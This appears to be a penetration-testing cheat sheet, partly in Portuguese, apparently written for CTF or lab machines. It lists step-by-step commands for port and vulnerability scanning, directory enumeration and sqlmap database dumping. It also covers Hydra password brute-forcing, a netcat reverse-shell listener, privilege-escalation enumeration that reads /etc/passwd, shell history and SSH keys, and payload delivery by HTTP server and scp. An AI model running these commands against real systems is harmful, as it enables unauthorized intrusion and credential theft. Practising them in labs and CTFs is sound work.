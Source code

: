 # 1° Scan Nmap 

$sudo nmap 10.0.0.0/24 -oN report-nmap.txt

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -sC -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 80 --script http-sql-injection [Target_IP]

$sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ [Target_IP]

$sudo nmap -Pn -p 80 --script http-vuln-* [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

#nmap -Pn -p 445 --script smb-vuln-* [Target_IP]

https://www.exploit-db.com

# 2° Scan Dirb/Gobuster

$dirb http://Target_IP -o dirb-report.txt

$dirb http://Target_IP -X .txt -w /usr/share/dirb/wordlists/small.txt -o dirb-report.txt

$dirb http://Target_IP:8080 -w /usr/share/dirb/wordlists/big.txt -u user:password

$gobuster -u http://Target -x php,html,js,txt,zip -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap/Nikto/Burp Suite/ZAP

$sqlmap -u http://Target_IP/login.php --forms --dump

$sqlmap -u http://Target_IP/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://Target_IP/listproducts.php?cat=1 –-dbs -D products –-tables

$nikto -h http://Target_IP -o report.html

$nikto -h http://Target_IP:8080/ -id user:password

Burp Suite > Proxy > Intercept > Open Browser > Intercept on

Burp Suite > Intruder > Sniper attack > Positions Add > Payload Type = Simple list

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 8080 http-get

$hydra -f -L user-name.txt -P /usr/share/wordlists/rockyou.txt Target_IP ssh

# 5° Scan SMB

$enum4linux -a Target_IP | tee enum4linux.log

# 6° Gain Access

http://example.com/login [Exibir código fonte da página]

http://example.com/ftp

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 7° Reverse Shell

Execute no terminal shell do Kali Linux $nc -lvnp 6666

https://www.sans.org/posters/netcat-cheat-sheet

Implante o Payload de Shell Reverso [php, python, nc]

https://github.com/pentestmonkey/php-reverse-shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Spawn a tty shell

python3 -c 'import pty; pty.spawn("/bin/bash")'

# 8° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$ls -la /home/user/.ssh

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

https://gtfobins.github.io

https://www.exploit-db.com

# 9° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000

$scp payload.sh user@Target_IP:/home/user

